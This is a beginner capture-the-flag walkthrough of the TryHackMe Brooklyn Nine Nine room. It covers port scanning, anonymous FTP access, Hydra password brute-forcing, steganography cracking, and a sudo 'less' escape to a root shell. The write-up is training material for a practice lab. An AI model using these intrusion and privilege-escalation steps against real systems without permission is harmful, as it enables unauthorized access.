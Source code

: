 ```yaml
---
layout: post
title: Brookyln Nine Nine Writeup
categories: [TryHackMe]
tags: [Misconfigured FTP, Steganography, Bruteforce]
---
```

 
# Brooklyn Nine Nine walkthrough.
This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box, you can check it out here: [Tryhackme](https://www.tryhackme.com/room/brooklynninenine)
          
          
# ~$ Preface
First off I am personally a huge fan of the show, (Amy is my fav character btw I'm sure yunno why lol) and It's a quite easy one, but no worries if you're stuck I'll walk you through buddy;) but first I'll leave hints to stimulate your mind:

![image](/assets/img/posts/brooklyn99.jpg)


# ~$ Hints
- checked source code yet??
- Port 80 exists for a reason yunno?
- Hmph, just a picture? 
- Bruteforcing steg?

First things first, a Portscan so we know our attack surface:

```
┌──(azazel㉿azazel)-[~/Tryhackme/Brooklyn99]
└─$ nmap -sC -sV 10.10.24.94 -Pn -vv -p 1-1024 -T4 --open  
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.45.27
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQjh/Ae6uYU+t7FWTpPoux5Pjv9zvlOLEMlU36hmSn4vD2pYTeHDbzv7ww75UaUzPtsC8kM1EPbMQn1BUCvTNkIxQ34zmw5FatZWNR8/De/u/9fXzHh4MFg74S3K3uQzZaY7XBaDgmU6W0KEmLtKQPcueUomeYkqpL78o5+NjrGO3HwqAH2ED1Zadm5YFEvA0STasLrs7i+qn1G9o4ZHhWi8SJXlIJ6f6O1ea/VqyRJZG1KgbxQFU+zYlIddXpub93zdyMEpwaSIP2P7UTwYR26WI2cqF5r4PQfjAMGkG1mMsOi6v7xCrq/5RlF9ZVJ9nwq349ngG/KTkHtcOJnvXz
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBItJ0sW5hVmiYQ8U3mXta5DX2zOeGJ6WTop8FCSbN1UIeV/9jhAQIiVENAW41IfiBYNj8Bm+WcSDKLaE8PipqPI=
|   256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP2hV8Nm+RfR/f2KZ0Ub/OcSrqfY1g4qwsz16zhXIpqk
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Perfect, port 21, 22 and 80, ftp, ssh and http all present, lets get to it then...

# ~$ First method::
Got anon logins allowed on ftp, so, swiftly I log in to "get" the file we see from our script scan: "note_to_jake.txt" where Amy gives us a clear hint(See why I like her?)::

```
┌──(azazel㉿azazel)-[~/Tryhackme/Brooklyn99]
└─$ ftp 10.10.24.94
Connected to 10.10.24.94.
220 (vsFTPd 3.0.3)
Name (10.10.24.94:azazel): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.00 secs (378.5372 kB/s)
```
I read the file and get the clue that Jake is using weak creds(Classic Jake), 
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
Hehee I let Hydra do his thing::
![image](/assets/img/posts/B991edit.png)

Welp, Jake was not the root user and the user.txt is also not his or in his home directory, I navigated to Holt's after searchiing Amy's and finding nothing and found the user.txt flag,  
before scp...ing or wget...ing any Privesc script I like to manually check for LPE vectors apparently we have sudo permissions to use "less". [gtfobins](https://gtfobins.github.io/) says we can use this for privesc like so::

![image](/assets/img/posts/b99Privesc.png)
next::
```
sudo less /etc/profile 
```
And append 
```
!/bin/sh
```
And that's it we are root! read the root.txt file, submit the flags.

Why this was fun is because it made me understand the relevance of the /etc/profile config file, it is basically a root owned file that is ran on login of any user as a child process of systemd(like all processes are) that controls system-wide default variables especially terminal type in our case scenerio, us having priviledged access to the "less" command utility which provides a "vim or a vim-like interface" to read files and edit binaries, and leveraging that allowed us carry out command operations within the file with the "less" binary allowing us spawn a root shell.



# ~$ Second Intended Method
Won't be posting images to display cause I forgot to document this part lol, but its pretty basic, I'll give the steps here ;
- Visited port 80 and checked source code which gave the clue:
 ```
 Have you ever head of steganography?
 ```
- Downloaded the image being served on port 80 through the server, Yes the seemingly unsuspecting image.
  Tried a few common passwords and failed swiftly and then decided to google-fu a little for tools to bruteforce a steg image and found two: stegcracker and stegseek, although stegseek is more revered due to it's speed and is an upgrade, but I prefer stegcracker on multithread mode :)
 
- Then I used Stegcracker:
```
sudo apt install stegcracker
```
![image](/assets/img/posts/steg-bb9.png)

- cat the output file, from using the pass to extract the stego image and it gives us this::

``` 
Holts Password:
fl#################e

Enjoy!!
```

- It gives us Holts ssh creds, I log in, Holt has a different sudo permission, easy fix: used [gtfobins](https://gtfobins.github.io/) and got root!
And thats it, We hacked the nine nine mate! ;)


Greetings, from [Rami3l](https://www.tryhackme.com/p/Rami3l).



